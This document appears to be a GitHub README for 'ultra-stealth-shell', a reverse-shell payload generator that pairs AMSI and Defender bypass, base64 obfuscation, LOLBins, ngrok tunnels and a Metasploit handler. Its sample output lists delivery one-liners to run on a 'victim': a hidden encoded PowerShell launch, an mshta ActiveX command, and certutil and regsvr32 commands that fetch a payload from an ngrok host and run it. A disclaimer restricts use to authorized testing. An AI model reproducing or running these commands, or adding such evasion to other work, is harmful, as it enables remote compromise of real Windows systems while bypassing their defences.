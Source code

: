 # ultra-stealth-shell
# 🐉 Ultra Stealth Reverse Shell Generator

An advanced, automated reverse shell payload generator built for **authorized red teaming and ethical hacking** engagements.  
It delivers highly evasive PowerShell payloads using:

- 🔐 AMSI Bypass
- 🔁 Base64 Obfuscation
- 🎭 LOLBins (`mshta`, `certutil`, `regsvr32`)
- 🧨 Self-deleting script stagers
- 🚇 Ngrok tunnels for internet delivery
- 🎯 Integrated Metasploit handler

---

## ⚠️ DISCLAIMER

> 🔒 **This tool is for educational use and legal penetration testing only.**  
> 🚫 Unauthorized access to systems you don't own or have explicit permission to test is **illegal**.  
> 🧠 The author is not responsible for any damage or misuse.  
> 🛡️ Use it only in labs, CTFs, or client-approved red team ops.

---

## 📦 Features

| Feature                         | Description |
|----------------------------------|-------------|
| ✅ **Ngrok Integration**         | For NAT/firewall bypass |
| ✅ **MSF Payload Generator**     | Uses `msfvenom` & `msfconsole` |
| ✅ **AMSI & Defender Bypass**   | Using `$amsiInitFailed` |
| ✅ **PowerShell Base64 Launcher** | One-liner payload execution |
| ✅ **LOLBins Support**          | Execute with `mshta`, `certutil`, `regsvr32` |
| ✅ **Auto HTTP Payload Hosting** | Auto-hosts payload via Python web server |
| ✅ **Self-Destruct Payload**     | Deletes after execution |

---

## 🔧 Requirements

Install the following tools (most are pre-installed in Kali Linux):

| Tool            | Install Command                      |
|-----------------|--------------------------------------|
| Python 3        | `sudo apt install python3`           |
| Metasploit      | `sudo apt install metasploit-framework` |
| Ngrok           | [https://ngrok.com/download](https://ngrok.com/download) |
| curl            | `sudo apt install curl`              |

---

## 🔐 Ngrok Setup

1. Go to [https://dashboard.ngrok.com/signup](https://dashboard.ngrok.com/signup)
2. Create a free account and get your **auth token**
3. Authenticate Ngrok:

```bash
ngrok authtoken <your_ngrok_auth_token>
```
4. Test Ngrok:
```bash
ngrok tcp 4444
```
You should see something like:
tcp://0.tcp.ngrok.io:14233

Ngrok is now ready to be used by the script.

🚀 Usage
## 📦 Installation

```bash
git clone https://github.com/atmajkhatavkar404/ultra-stealth-shell.git
cd ultra-stealth-shell
python3 ultra_stealth_shell.py
```
📥 Output

```bash
[+] Payload selected: windows/meterpreter/reverse_https
[*] Starting Ngrok tunnel...
[+] Ngrok Forwarding: 0.tcp.ngrok.io:14233
[*] Creating stealth PowerShell payload...
[+] Saved stealth PowerShell payload as: payload.ps1

🎯 STEALTH PAYLOADS READY — DELIVER ONE OF THESE TO TARGET:
======================================================================
[🔥 ENV Trick] Save and run payload_launcher.bat on victim
[🔥 Direct PowerShell] powershell -nop -w hidden -enc <base64>
[🔥 mshta (LOLBIN)] mshta.exe "javascript:var sh=new ActiveXObject('WScript.Shell'); sh.Run('<powershell>');close()"
[🔥 certutil] certutil -urlcache -split -f http://0.tcp.ngrok.io:8000/payload.ps1 payload.ps1 && powershell -ExecutionPolicy Bypass -File payload.ps1
[🔥 regsvr32] regsvr32 /s /n /u /i:http://0.tcp.ngrok.io:8000/payload.ps1 scrobj.dll
======================================================================
[+] Hosted script at: http://0.tcp.ngrok.io:8000/payload.ps1
[*] Starting Metasploit handler...
```

